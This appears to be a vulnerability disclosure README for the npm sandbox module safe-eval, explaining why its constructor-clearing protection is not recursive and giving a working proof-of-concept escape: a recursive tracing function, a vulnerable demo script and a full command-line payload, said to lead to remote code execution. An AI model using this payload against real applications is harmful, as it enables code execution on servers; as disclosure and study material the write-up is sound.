 Github: https://github.com/hacksparrow/safe-eval

Npm: https://www.npmjs.com/package/safe-eval

Safe-eval module uses the standard nodejs “VM” module to execute user’s supplied javascript code in safe way, the module performs that by appending the following code to the user supplied input.

```

 (function() { 
 Function = undefined; 
 const keys = Object.getOwnPropertyNames(this).concat(['constructor']); 
 keys.forEach((key) => { 
 const item = this[key]; 
 if (!item || typeof item.constructor !== 'function') return; 
 this[key].constructor = undefined; 
 }); 
 })();
```
This protection loop over all the build in javascript objects and write its constructor value to “undefined” which prevent the user from calling any constructor.

Weakness
---------
The above code doesn’t recursively check “this” which means that if there is a variable in the context like the following one the above code will not be able to erase the x.v.constructor.

```

 var context = { 
 x: {v: 
	function() { 
		return 1 
		} 
	} 
 };
```
Application using safe-eval usually pass the variables the code needs into the context variable, those variables will be available for the sandbox to access.

If the variable contains a function declaration under a 2nd degree (or more) object, we can escape the sandbox by referencing to this variable constructor.

Exploit
---------
The following exploit I wrote will loop over all the declared variables in the sandbox context recursively and once it detects the above situation it will use the function constructor to escape the sandbox.

```

 var stack = []; 
 
 function trace(context) { 
	if (context === null) return; 
		const keys = Object.getOwnPropertyNames(context); 
		for (var i = 0; i < keys.length; i++) { 
			key = keys[i] 
			if (typeof context[key] === 'object') { 
				result = trace(context[key]); 
			} else if (typeof context[key] === 'undefined' || typeof context[key].constructor === 'undefined') continue; 
	else if (typeof context[key].constructor.constructor === 'function') { 
	stack.push(context[key]); 
		} 
 
	} 
 } 
 
 trace(global); 
 var suc = []; 
 for (var i = 0; i < stack.length; i++) { 
 try { 
 stack[i].constructor('global')(); 
 suc.push(stack[i]); 
 } catch (e) { 
 
 } 
 }
```
Now lets assume that the application using safe-eval is passing a context in a vulnerable way as below.

```

 root@kali:~/Desktop/eval# cat safe.js 
 
 var safeeval = require('./safe-eval-master'); 
 var src = process.argv[2]; 
 const sandbox = { x: {v:function(){return 2}} }; 
 console.log(safeeval(src,sandbox))
```
we will pass the payload like this

```
root@kali:~/Desktop/eval# nodejs safe.js "1;var stack = [];function trace(context){console.log(context);if (context===null) return;const keys = Object.getOwnPropertyNames(context);for(var i=0;i<keys.length;i++){key = keys[i];if(typeof context[key] === 'object'){result = trace(context[key]);}else if (typeof context[key] === 'undefined' || typeof context[key].constructor === 'undefined') continue;else if( typeof context[key].constructor.constructor === 'function'){stack.push(context[key]);}}};trace(this);var suc=[];for(var i=0;i<stack.length;i++){try{stack[i].constructor('global')();suc.push(stack[i]) }catch(e){ }};suc"
```
This payload will return the constructor of the function “x.v”, in order to gain access to the process object and gain RCE we can do something like this.

![Alt text](run.png?raw=true)
